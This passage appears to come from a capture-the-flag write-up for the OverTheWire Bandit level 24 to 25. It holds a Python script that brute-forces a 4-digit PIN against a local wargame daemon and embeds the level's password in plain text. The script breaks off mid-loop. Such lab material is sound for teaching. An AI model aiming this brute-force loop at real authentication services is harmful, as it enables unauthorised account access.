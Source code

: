 <img src="./image/bandit_0x23.png" alt="Bandit 0x23">
</div>


#
<div align="center">

## <kbd>Bandit Level 24 → Level 25</kbd>
<text style="font-family: 'Lucida Console', 'Courier New', monospace;">
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
</text>

#
</div>

```python
import socket
code = 999
PASSWORD_STAGE_24 = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
PORT = 30002
IP = '127.0.0.1'
def send_packet(sock, payload):
    sock.send(payload)
    response = sock.recv(2048).decode()
    if not response == 'Wrong! Please enter the correct pincode. Try again.\n':
        print(response, payload)

def PIN_HACKED():
    global code
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.connect((IP, PORT))
            print(sock.recv(2048).decode())
            while True:
                print('[+] pin code send {0} ...'.format(code), end='\r')
                payload = '{0} {1} {2}'.format(PASSWORD_STAGE_24, code, '\n').encode()
                send_packet(sock, payload)
                code += 1
```